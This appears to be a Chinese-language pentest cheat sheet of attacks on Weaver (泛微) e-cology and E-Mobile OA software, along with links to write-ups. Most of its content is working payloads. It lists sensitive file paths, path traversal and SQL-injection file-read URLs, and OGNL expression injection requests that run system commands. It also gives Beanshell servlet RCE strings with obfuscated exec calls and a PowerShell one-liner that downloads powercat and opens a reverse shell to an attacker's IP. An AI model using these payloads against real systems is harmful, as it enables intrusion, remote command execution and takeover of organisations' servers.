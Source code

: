 **敏感文件泄露**
- `/messager/users.data`
- `/plugin/ewe/jsp/config.jsp`

**路径遍历**
- `/plugin/ewe/admin/upload.jsp?id=11&dir=../../../`
- `/weaver/weaver.file.SignatureDownLoad?markId=1+union+select+'../ecology/WEB-INF/prop/weaver.properties'`

**E-Mobile 4.5 RCE**
```
**.**.**.**/verifyLogin.do
data：loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${@**.**.**.**.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ipconfig').getInputStream())}

http://**.**.**.**/verifyLogin.do
data:  loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${6666-2333}
http://**.**.**.**:89/verifyLogin.do
data:  loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${6666-2333}
**.**.**.**/verifyLogin.do
data:  loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${6666-2333}
http://**.**.**.**/verifyLogin.do
data:  loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${6666-2333}
http://**.**.**.**/verifyLogin.do
data:  loginid=CasterJs&password=CasterJs&clienttype=Webclient&clientver=4.5&language=&country=&verify=${6666-2333}
```

**e-mobile < 6.5 Ognl 表达式注入**
- 文章
    - [关于表达式注入的小记录](https://zhuanlan.zhihu.com/p/26052235)
    - [泛微 E-Mobile Ognl 表达式注入](https://blog.csdn.net/qq_27446553/article/details/68203308)
    - [泛微 E-Mobile Ognl 表达式注入](https://docs.ioin.in/writeup/www.sh0w.top/_index_php_archives_14_/index.html)

- POC | Payload | exp
    ```
    message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
    ```

**e-cology OA Beanshell 组件远程代码执行**
- 文章
    - [[漏洞预警]泛微e-cology OA Beanshell组件远程代码执行分析](https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg)
    - [泛微e-cology OA Beanshell组件远程代码执行漏洞复现](https://mp.weixin.qq.com/s/LpXiLukOKMfMSa8gUYBqNA)

- POC | Payload | exp
    - [jas502n/e-cology](https://github.com/jas502n/e-cology)
    ```
    /weaver/bsh.servlet.BshServlet
    ```
    ```
    eval%00("ex"%2b"ec(\"whoami\")"); 也可以换成 ex\u0065c("cmd /c dir");
    ```
    泛微多数都是 windows 环境, 反弹 shell 可以使用 pcat
    ```
    powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
    ```
